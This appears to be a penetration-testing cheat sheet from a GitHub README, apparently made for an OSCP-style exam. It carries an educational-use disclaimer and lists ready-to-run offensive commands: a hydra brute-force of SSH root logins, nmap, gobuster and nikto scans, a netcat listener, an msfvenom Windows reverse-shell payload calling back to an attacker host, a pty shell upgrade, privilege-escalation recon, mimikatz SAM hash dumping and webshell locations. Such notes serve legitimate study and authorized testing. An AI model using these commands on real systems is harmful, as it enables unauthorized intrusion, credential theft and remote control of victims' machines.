 ## Disclaimer
This cheatsheet is definitely not "complete". I am sure i forgot to write down hundreds of essential commands, used most of them in the wrong way with unnessecary flags and you'll  probably soon ask yourself how i've even made it through the exam. Also you might think a certain tool used should be in another phase of the attack (e.g certain nmap vulnerabitly scripts should be in Exploitation). That's okay, imho the edges between different stages of a penetration test are very blurry. Feel free to issue a PR if you want to help to improve the list.
**Use for educational purposes only!**

 hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt -t 6 ssh://192.168.1.123

 sudo nmap -A -p80 --open 10.11.1.0/24 -oG nmap-scan_10.11.1.1-254
  cat nmap-scan_10.11.1.1-254
  cat nmap-scan_10.11.1.1-254 | grep 80
  cat nmap-scan_10.11.1.1-254 | grep 80 | grep -v "Nmap"
  cat nmap-scan_10.11.1.1-254 | grep 80 | grep -v "Nmap" | awk '{print
$2}'
for ip in $(cat nmap-scan_10.11.1.1-254 | grep 80 | grep -v "Nmap" |
awk '{print $2}'); do cutycapt --url=$ip --out=$ip.png;done

sudo gobuster dir -u http://10.11.1.71/ -w /usr/share/seclists/Discovery/Web-Content/CGIs.txt -s '200,204,301,302,307,403,500' -e -k
for files
-x php,txt,cnf,conf

sudo gobuster dir -e -u http://192.168.0.1 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 20 -s '200,204,301,302,307,403,500' -k

nikto -host=http://10.11.1.71 -maxtime=30s
ls -lah /usr/share/nmap/scripts/*shellshock*

nc -nlvp 1234 (listen on 1234)

msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.73 LPORT=443 EXITFUNC=thread -f exe -a x86 --platform windows -o ms17-010.exe

msfvenom cheat sheet https://book.hacktricks.xyz/shells/shells/untitled

python -c 'import pty; pty.spawn("/bin/sh")'
***
wmic service get name,pathname,displayname,startmode | findstr /i auto | findstr /i /v "C:\Windows\\" | findstr /i /v """

meterpreter post/multi/recon/local_exploit_suggester 

use mimikatz
msv
mimikatz_command -f samdump::hashes

nmap -T4 -Pn -sV -F -sC -oN Bastard.nmap 10.11.1.50


basic webshell
/usr/share/webshells

active directory recon - https://book.hacktricks.xyz/windows/active-directory-methodology
smb enum check list https://0xdf.gitlab.io/2018/12/02/pwk-notes-smb-enumeration-checklist-update1.html
